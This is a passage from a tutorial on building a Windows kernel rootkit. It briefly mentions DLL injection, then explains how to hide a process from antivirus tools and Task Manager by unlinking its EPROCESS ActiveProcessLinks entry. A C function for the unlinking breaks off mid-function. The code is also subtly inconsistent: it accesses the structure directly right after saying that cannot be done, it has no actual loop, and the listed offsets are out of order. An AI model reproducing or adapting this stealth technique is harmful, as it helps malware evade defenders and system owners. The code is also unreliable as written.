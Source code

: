 These routines work together to schedule and execute the DLL injection into the target process after the `kernel32.dll` module is loaded. This injection is performed in a controlled and synchronized manner, ensuring that the target process is injected with the specified. 
### Hide Process 
A interesting technique we can use in our rootkit is to hide or unlink a target process, which will be hidden from AVs,  We won’t be able to see this in the Windows Task Manager. 

To hide our process we need to understand a few Windows internal concepts, such as the `EPROCESS` data structure in the Windows kernel. `EPROCESS` is an opaque data structure in the Windows kernel that contains important information about processes running on the system. The offsets of this large structure change from build to build or version to version.

What we’re interested in is, `ActiveProcessLinks`, which is a pointer to a structure called `LIST_ENTRY`. We can’t just access this data structure normally like `EPROCESS.ActiveProcessLinks`, we have to use [PsGetCurrentProcess](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/ntddk/nf-ntddk-psgetcurrentprocessid) to get the current `EPROCESS` and then add an offset that is version dependent. This is the downside to the `EPROCESS` structure. It can make it very hard to have a compatible Windows Kernel rootkit.

```
kd> dt nt!_EPROCESS
<..redacted...>
    +0x000 Pcb              : _KPROCESS
    +0x3e8 ProcessLock      : _EX_PUSH_LOCK
    +0x2f0 UniqueProcessId  : Ptr64 Void
    +0x400 ActiveProcessLinks : _LIST_ENTRY
```

The `LIST_ENTRY` data structure is a doubly-linked list, where `FLINK` (forward link) and `BLINK` are references to the next and previous elements in the doubly-linked list.

![img](upload://tdXjZgZaIqarhbexg3YcR2oWNM2.png)

Using the information above, we can hide our process from being shown by manipulating the kernel data structures. To hide our process we can do the following:

- Point the `ActiveProcessLinks.FLINK` of `EPROCESS 1` to `ActiveProcessLinks.FLINK` of `EPROCESS 3` .
- Point `ActiveProcessLinks.BLINK` of `EPROCESS 3` to `ActiveProcessLinks.BLINK` OF `EPROCESS 1`.

This manipulation unlinks the data structure of our target process, `EPROCESS 2`, from the doubly-linked list, rendering it invisible to system inspectors.

```c
// Function to hide a process by manipulating kernel data structures
NTSTATUS HideProcess(ULONG pid) {
    PEPROCESS currentEProcess = PsGetCurrentProcess();
    LIST_ENTRY* currentList = &currentEProcess->ActiveProcessLinks;
    
    // Get the offsets for UniqueProcessId and ActiveProcessLinks
    ULONG uniqueProcessIdOffset = FIELD_OFFSET(EPROCESS, UniqueProcessId);
    ULONG activeProcessLinksOffset = FIELD_OFFSET(EPROCESS, ActiveProcessLinks);
    
    ULONG currentPid;
    {
        // Check if the current process ID is the one to hide
        RtlCopyMemory(&currentPid, (PUCHAR)currentEProcess + uniqueProcessIdOffset, sizeof(currentPid));
        if (currentPid == pid) {
            // Remove the process from the list
            LIST_ENTRY* blink = currentList->Blink;
            LIST_ENTRY* flink = currentList->Flink;
            blink->Flink = flink;
            flink->Blink = blink;
            return STATUS_SUCCESS;
        }
        
```
